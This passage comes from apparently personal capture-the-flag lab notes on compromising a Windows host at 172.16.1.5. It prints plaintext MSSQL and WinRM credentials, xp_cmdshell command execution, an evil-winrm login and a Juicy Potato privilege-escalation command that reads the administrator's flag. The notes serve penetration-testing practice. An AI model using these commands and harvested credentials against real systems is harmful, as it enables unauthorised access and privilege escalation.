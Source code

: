 we are root and we find the flag

## 172.16.1.5

We find the below creds for `MSSQL` from `2.6` and use them to login

mssql => `Sophie:XTerrorInflictPurpleDirt996655`

Using sqsh we can easily login but it opens a mssql shell which is pretty shit.

`sqsh -S 172.16.1.5 -U Sophie -P TerrorInflictPurpleDirt996655`

So we use this cheatsheet => https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

We can execute commands using xp_cmd in the sql shell.

```MSSQL
EXEC xp_cmdshell 'ls';
```

We can find sophie creds in `C:\DB_Backups\db_backup.ps1`

winrm => `sophie:Alltheleavesarebrown1`

```bash
evil-winrm -i 172.16.1.5 -u sophie -p "Alltheleavesarebrown1"
```

and checking privs and sysinfo it looks like we can do Juicy Potato exploit (`SeChangeNotifyPrivilege - enabled`).

```
whoami /priv
Get-ComputerInfo
```

![[Pasted image 20211013214653.png]]
![[Pasted image 20211012153117.png]]

We can download the potato.exe from => https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2016_Standard

Some other sources for potato walkthroughs 
- https://hunter2.gitbook.io/darthsidious/privilege-escalation/juicy-potato

There was no need to input CLSID here. 

potato => `echo "type C:\users\administrator\desktop\flag.txt" | .\jp.exe -p C:\windows\system32\cmd.exe -t * -l 9999`

The command is echoed and then the potato was executed because the shell pops for a second and then dies was probably same with the rogue potato will try again later.

You find flags in sophie folder,  admin folder and ftp folder in `C:\`for `1.5` and also another one at the start when you did anon login in ftp.